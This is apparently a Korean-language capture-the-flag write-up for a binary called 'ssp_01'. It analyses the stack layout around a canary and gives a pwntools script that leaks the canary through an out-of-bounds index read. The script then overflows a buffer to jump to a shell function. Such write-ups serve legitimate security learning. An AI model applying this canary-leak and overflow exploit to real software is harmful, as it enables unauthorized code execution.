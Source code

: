 
## 결론

### 구조 분석

- `[rbp - 8]` 주소 위치에 Canary 값 저장
- `0xffffcece[0]` 의 값 `F` 일시 입력 후 `0xffffced0` 스택에 값을 저장 → **Canary 저장 주소와 `128` 바이트 떨어져 있음**
- `0xffffcece[0]` 의 값 `E` 일시 입력 후 `0xffffcf10` 스택에 값을 저장 → **Canary 저장 주소와 `64` 바이트 떨어져 있음**
- `F` 일시 `read` 함수가 총 `0x40` 바이트 까지만 저장을 함
- 하지만 `E` 에선 위의 조건을 제외하고 `0x40` 바이트 이상 `print_box` 함수에 의해 출력이 됨. (**이를 통해 Canary 값을 구할 수 있음**)

---

### 파이썬 페이로드

```python
from pwn import *
context.log_level = 'debug'

p = process("./ssp_01")

byte_result = []

p.sendafter(b'> ', b'F')
padding = b'A' * 129
p.recvuntil(b'box input : ')
p.sendline(padding)


for i in [128, 129, 130, 131]:
    p.sendafter(b'> ', b'P')
    p.recvuntil(b'Element index : ')
    p.sendline(str(i).encode())
    byte = p.recv(29).decode().split()[-1]
    byte_result.append(byte)

canary_list = ''.join(byte_result)
canary_hex = bytes.fromhex(canary_list)
canary = u32(canary_hex)

shell = 0x080486b9

p.sendafter(b'> ', b'E')
p.sendlineafter(b'Name Size : ', b'1000')
p.recvuntil(b'Name : ')

payload = b'A' * 64 
payload += p32(canary)
payload += b'B' * 8
payload += p32(shell)

p.sendline(payload)

p.interactive()
```




